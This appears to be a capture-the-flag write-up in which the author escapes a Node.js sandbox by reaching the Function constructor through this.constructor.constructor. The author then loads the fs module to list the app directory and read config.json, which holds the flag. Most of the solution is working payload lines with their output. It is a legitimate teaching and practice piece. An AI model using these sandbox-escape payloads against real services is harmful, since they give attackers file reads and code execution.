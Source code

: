     app.listen(port);



### Solution

There's a common method to escape sandboxes in node using constructors.
The constructor of `this` is `Object`, and the constructor of `Object`
is `Function`, so you can use that `Function` to make a function that
runs in a new context. Then, add `()` to the end to call that function.
So, for example, if I enter:



    this.constructor.constructor("return process.mainModule")();



I get:



    { id: '.',
    exports: {},
    parent: null,
    filename: '/app/node_modules/sandbox/lib/shovel.js',
    loaded: true,
    children: [],
    paths:
    [ '/app/node_modules/sandbox/lib/node_modules',
    '/app/node_modules/sandbox/node_modules',
    '/app/node_modules',
    '/node_modules' ] }



So I'll use the `fs` module to do a dirwalk:



    this.constructor.constructor("return process.mainModule.require('fs').readdirSync('.').toString()")();





    'config.json,config.json~,docker-compose.yaml,dockerfile,dockerfile~,index.md,main.js,node_modules,package-lock.json,package.json,run.js'



And I can get the contents of the config file, which contains the flag
according to the source:



    this.constructor.constructor("return process.mainModule.require('fs').readFileSync('config.json').toString()")();





    '{\n "flag":"HV18-YtH3-S4nD-bx5A-Nt4G",\n "port":3000\n}\n\n'

